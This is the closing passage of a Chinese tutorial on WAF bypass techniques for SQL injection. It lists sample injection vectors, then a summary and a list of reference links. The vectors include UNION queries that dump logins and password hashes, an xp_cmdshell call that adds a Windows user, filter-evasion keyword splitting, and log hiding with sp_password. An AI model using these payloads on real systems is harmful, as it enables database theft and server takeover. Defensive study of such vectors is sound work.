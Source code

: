 ```

/?id=1+union+(select'1',concat(login,hash)from+users)
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))

?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ �net user lucifer UrWaFisShiT� /*&id=1*/ --
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
id=10 and 1=0/(select top 1 table_name from information_schema.tables)

id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
id=-725+UNION+SELECT+1,version(),3,4,5--sp_password //使用 sp_password 隐藏 log 中的请求 
```

## 0x05 本文小结

* * *

本文内容到这里内容差不多就算是完了回顾一下本文内容主要从三个方面展开绕过 WAF 的方法、Filter 的实现机制和 Evasion 措施、测试示例和向量。本文的第二部分”绕过 WAF 的方法“花了较多时间需要参照已有的总结进行自己的总结并给出示例第三、四两部分更多的是粘贴已收集到的向量因此较快。本文内容和篇幅较多涉及信息量很大但是仍有许多不完善或遗漏的地方。

最后再说一下昨天晚上和园长谈及本文内容时他表示像缓冲区溢出绕过 waf 这些针对的是传统的 waf 而且关键字替换也不仅仅是处理 select 这么简单现在一种很重要的处理方式是编码笔者听后确实感觉受教了。需要进一步学习的还有很多很多云 waf 和传统 waf 之间千丝万缕的关系也还有待进一步去了解。前几天朋友说前几天他现在过滤都不太使用正则表达式了那样效率太低使用抽象语法树 AST 检测 SQL 注入曾经以为只有学院派会使用的现在已经发生在身边了。

笔者作为新手抱着学习的态度写出本文希望懂这方面的朋友前辈可以多指点。

## 0x06 参考资料

* * *

WAF 介绍 http://www.nsfocus.com/waf/jishu/js_01.html

WAF 实现扫描器识别 http://drops.wooyun.org/tips/730　

WAF 的绕过技巧 http://drops.wooyun.org/tips/132

绕过 waf 的笔记 http://fuck.0day5.com/?p=622

SQL 注入中的 WAF 绕过技术 http://netsecurity.51cto.com/art/201301/376869.htm

浅谈 WAF 的绕过 http://netsecurity.51cto.com/art/201212/374068.htm　　

SQL 注入攻防入门详解(MS SQL)http://www.2cto.com/Article/201211/165466.html

Beyond SQLi: Obfuscate and Bypass http://www.exploit-db.com/papers/17934/

从基础到高级的 waf 绕过方法 http://gnahackteam.wordpress.com/2012/07/06/basic-to-advanced-waf-bypassing-methods/　

Bypass WAFhttp://www.surfthecyber.com/2013/05/how-to-bypass-waf-web-application.html

WAF Bypassing: SQL Injection (forbidden or not?)http://www.r00tsec.com/2011/07/sql-injection-bypass-waf.html

WAF filter evasionhttp://sla.ckers.org/forum/read.php?24,33903
